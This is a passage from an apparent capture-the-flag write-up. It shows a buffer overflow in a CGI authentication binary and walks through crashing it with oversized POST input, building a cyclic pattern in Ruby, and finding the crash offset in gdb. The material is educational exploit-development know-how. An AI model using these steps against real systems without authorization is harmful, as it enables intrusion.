In that script, we read the `Content-Length` from a variable, then read that many bytes of the POST body into a static buffer. That's a fairly standard buffer overflow, with the twist that it's in a CGI application!

We can demonstrate the issue pretty easily by running the CGI directly (I'm using `dd` to produce 200 characters without cluttering up the screen):

```bash
$ dd if=/dev/urandom bs=1 count=200 | CONTENT_LENGTH=200 ./auth.cgi
Content-Type: text/plain

[...]
fish: Process 455756, './auth.cgi' from job 1, 'dd if=/dev/urandom bs=1 count=2…' terminated by signal SIGSEGV (Address boundary error)
```

## Getting the offset

There are a whole bunch of tools for this, but let's built it by hand!

We know that 200 bytes is enough to crash it. Since a memory address is 8 bytes on a 64-bit system, let's create a file that starts with 8 `A`s, 8 `B`s, etc. Do this however you like, but I like Ruby:

```
3.1.3 :007 > puts (?A..?Z).to_a.map { |c| c*8 }.join
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTTUUUUUUUUVVVVVVVVWWWWWWWWXXXXXXXXYYYYYYYYZZZZZZZZ

3.1.3 :008 > File.write('/tmp/poc.bin', (?A..?Z).to_a.map { |c| c*8 }.join)
 => 208
```

Then run the script in a debugger with that input:

```
$ CONTENT_LENGTH=208 gdb -q ./auth.cgi 
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin 
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain


Program received signal SIGSEGV, Segmentation fault.
0x000000000040175e in main (argc=1, argv=0x7fffffffdad8) at auth.c:32
```

Note that we set the `CONTENT_LENGTH` environmental variable before running the script, then run the binary with `run < /tmp/poc.bin`. The process crashes, so let's see where it crashes:

```
(gdb) x/i $rip
=> 0x40175e <main+265>: ret
```
